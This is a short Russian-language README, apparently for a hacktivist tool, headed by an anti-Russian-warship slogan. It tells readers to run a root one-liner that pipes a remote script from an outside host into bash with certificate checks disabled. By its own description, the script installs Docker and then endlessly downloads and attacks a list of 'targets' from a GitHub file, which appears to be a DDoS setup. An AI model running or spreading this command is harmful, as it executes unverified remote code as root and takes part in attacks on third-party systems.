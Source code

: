Русский корабль, иди нахуй!

```bash
bash <(curl -kfsSL https://orda.dshagin.pro)
```

Строчку выше надо выполнить в рутовой консли debian или ubuntu.

Оно само попробует поставить Докур, дальше в цикле будет качать список целей отсюда https://github.com/dmitryshagin/targets/blob/main/list
Когда список закончится - будет качать его заново
